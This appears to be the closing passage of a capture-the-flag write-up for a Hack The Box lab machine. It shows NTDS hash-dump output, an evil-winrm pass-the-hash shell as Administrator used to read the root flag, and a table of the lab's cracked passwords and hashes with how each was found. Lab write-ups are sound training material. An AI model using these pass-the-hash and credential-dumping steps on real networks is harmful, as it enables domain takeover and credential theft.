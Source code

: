 ```bash
SMB         10.10.11.70     445    DC               PUPPY.HTB\steph.cooper:1107:aad3b435b51404eeaad3b435b51404ee:b261b5f931285ce8ea01a8613f09200b:::
SMB         10.10.11.70     445    DC               PUPPY.HTB\steph.cooper_adm:1111:aad3b435b51404eeaad3b435b51404ee:ccb206409049bc53502039b80f3f1173:::
SMB         10.10.11.70     445    DC               DC$:1000:aad3b435b51404eeaad3b435b51404ee:d5047916131e6ba897f975fc5f19c8df:::
```

and grab root.txt

```bash
➜  Puppy evil-winrm -i DC.puppy.htb -u Administrator -H bb0edc15e49ceb4120c7bd7e6e65d75b       
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ..
*Evil-WinRM* PS C:\Users\Administrator> cd Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
a8b63c3aff2673105d14dc4a1ad1f3fb

```

## Creds

| username | password / hash | work at  | found from | privileges |
| --- | --- | --- | --- | --- |
| levi.james | KingofAkron2025! | smb,ldap | entry | addself Group |
| - | liverpool | recovery.kdbx | keepass4brute |  |
| ant.edwards | Antman2025! | ldap | kdbx | GenericAll |
| steph.cooper | ChefSteph2025! | winrm | backup | dpapi |
| steph.cooper_adm | FivethChipOnItsWay2025! | everywhere | dpapi | dcsync |
| Administrator | bb0edc15e49ceb4120c7bd7e6e65d75b | everywhere | ntds | DA |
